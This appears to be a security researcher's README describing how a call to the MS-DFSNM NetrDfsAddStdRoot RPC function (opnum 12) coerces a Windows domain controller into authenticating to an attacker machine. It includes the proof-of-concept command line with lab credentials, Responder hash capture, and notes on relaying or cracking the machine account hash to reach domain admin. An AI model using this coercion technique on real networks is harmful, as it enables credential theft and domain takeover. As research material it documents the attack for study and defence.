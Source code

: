 # MS-DFSNM - Remote call to NetrDfsAddStdRoot (opnum 12)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Function name**: [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d)

 - **Function operation number**: `12`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`4fc742e0-4a10-11cf-8273-00aa004ae673`
     - version=`3.0`
     - Accessible from:
       + SMB Named pipe: `\PIPE\netdfs`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\netdfs` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\netdfs`. This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsAddStdRoot("192.168.2.51\x00", "share\x00", "comment\x00", 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
NET_API_STATUS NetrDfsAddStdRoot(
    [in, string] WCHAR* ServerName,
    [in, string] WCHAR* RootShare,
    [in, string] WCHAR* Comment,
    [in] DWORD ApiFlags
);
```


 - **ServerName**: The pointer to a null-terminated Unicode string. This is the host name of the new DFS root target.


 - **RootShare**: The pointer to a null-terminated Unicode string. This is the new DFS root target share name as well as the DFS namespace name. The share MUST already exist.


 - **Comment**: The pointer to a null-terminated Unicode string that contains a comment associated with the DFS namespace. Used for informational purposes, this string has no protocol-specified restrictions on length or content. The comment is meant for human consumption and does not affect server functionality. This parameter MAY be a NULL pointer.


 - **ApiFlags**: This parameter is reserved for future use and is ignored by the server.


## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

 - Documentation of function `NetrDfsAddStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d
